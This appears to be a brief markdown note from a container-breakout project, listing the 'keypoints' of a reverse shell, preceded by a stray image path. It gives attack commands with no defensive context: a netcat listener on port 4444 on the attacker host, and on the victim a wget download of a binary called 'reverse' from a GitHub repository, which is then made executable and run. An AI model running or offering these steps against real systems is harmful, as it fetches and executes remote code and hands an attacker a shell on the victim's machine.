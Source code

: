 # Keypoint of reverse shell
  
    - on attacker host (same as host)
        - nc -nlvp 4444 (on attacker host)
  
    - on victim
        - wget https://github.com/boson13579/Container-breakout/raw/master/reverse 
        - chmod +x reverse
        - ./reverse

  